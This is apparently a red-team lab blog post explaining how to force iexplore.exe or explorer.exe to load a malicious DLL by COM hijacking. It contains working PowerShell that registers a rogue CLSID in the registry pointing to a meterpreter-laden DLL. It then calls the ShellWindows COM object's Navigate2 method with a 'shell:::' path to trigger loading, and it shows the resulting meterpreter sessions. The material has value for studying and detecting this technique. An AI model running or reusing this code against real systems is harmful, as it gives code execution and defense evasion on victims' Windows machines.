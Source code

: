 ```yaml
---
layout: post
title: "forcing iexplore.exe to load a malicious dll via com abuse"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /forcing-iexplore.exe-to-load-a-malicious-dll-via-com-abuse/
---
```


---
layout: post
title: "forcing iexplore.exe to load a malicious dll via com abuse"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /forcing-iexplore.exe-to-load-a-malicious-dll-via-com-abuse/
---

# Forcing Iexplore.exe to Load a Malicious DLL via COM Abuse

It's possible to force iexplore.exe (or explorer.exe) to load a malicious DLL and execute it - a technique which could be used when attempting to evade certain defenses.

The technique works as follows:

* An attacker creates a malicious DLL that he wants iexplore.exe to load and execute - I used a meterpreter payload in this lab
* On a victim system, the attacker defines a new COM server by creating the required keys and values in the registry. The previously created malicious DLL will be set to handle the COM client calls. In our case, the DLL will only perform one action - it will execute the meterpreter shellcode upon load
* On a vitim system, the attacker uses an existing `ShellWindows` (iexplore or explorer) COM server `9BA05972-F6A8-11CF-A442-00A0C90A8F39`to call our malicious COM server by simply navigating to it
* Iexplore.exe loads the malicious DLL
* Attacker catches the meterpreter shell

This technique _requires_ iexplore.exe to be running on the target system :)

See [https://labs.nettitude.com/blog/com-and-the-powerthief/](https://labs.nettitude.com/blog/com-and-the-powerthief/) by Rob Maslen for more details on why this technique works.

## Execution

Below is a powershell code that creates a new COM object with a randomly chosen CLSID `55555555-5555-5555-5555-555555555555` which registers our malicious DLL at `\\VBOXSVR\Experiments\evilm64.dll` to handle incoming calls from COM clients:

{% code title="attacker@victim" %}
```csharp
# Code borrowed from https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1 by Rob Maslen
$CLSID = "55555555-5555-5555-5555-555555555555"
Remove-Item -Recurse -Force -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" -ErrorAction SilentlyContinue

# path to the malicious DLL we want iexplore to load and execute
$payload = "\\VBOXSVR\Experiments\evilm64.dll"
New-Item -Path "HKCU:\Software\Classes\CLSID" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "ThreadingModel" -Value "Apartment" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "LoadWithoutCOM" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "HideOnDesktop" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "Attributes" -Value 0xf090013d -PropertyType DWORD | Out-Null
```
{% endcode %}

Once run, we can see that the new COM object got created successfully in the registry:

![](<../../.gitbook/assets/Annotation 2019-06-15 165723.png>)

We are now ready to execute the payload with the below powershell. What happens here is:

* We're requesting a new instance of the `ShellWindows` `(9BA05972-F6A8-11CF-A442-00A0C90A8F39)` COM object, which actually applies to both explorer.exe and iexplore.exe, meaning with a handle to that object, we can interface with them using their exposed methods
* Specifically, we are interested in getting an instance of a COM object for iexplore.exe, because its COM server has a method `Navigate2(...)` exposed. The `Navigate2` allows us to programatically instruct the iexplore.exe to navigate to a URL.&#x20;
* We are asking iexplore to navigate to our newly created malicious CLSID pointing to our DLL instead of a URL:

{% code title="attacker@victim" %}
```csharp
# force iexplore to load the malicious DLL and execute it
$shellWinGuid = [System.Guid]::Parse("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")
$typeShwin = [System.Type]::GetTypeFromCLSID($shellWinGuid)
$shwin = [System.Activator]::CreateInstance($typeShwin) | ? {$_.fullname -match 'iexplore'} | Select-Object -First 1
$shWin.Navigate2("shell:::{$CLSID}", 2048)
```
{% endcode %}

Code execution in action, resulting in a meterpreter session:

![](../../.gitbook/assets/iecomhijacking.gif)

## Shell:::

As a fun bonus, it's possible to call our malicious COM object via explorer by navigating to\
`shell:::{55555555-5555-5555-5555-555555555555}` which forces the explorer.exe to load our malicious DLL:

![](<../../.gitbook/assets/Annotation 2019-06-15 174905.png>)

...and results in a meterpreter shell:

![](../../.gitbook/assets/explorerhijack.gif)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/component-object-model--com--portal" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752094(v%3Dvs.85)" %}

{% embed url="https://labs.nettitude.com/blog/com-and-the-powerthief/" %}

@spotheplanet
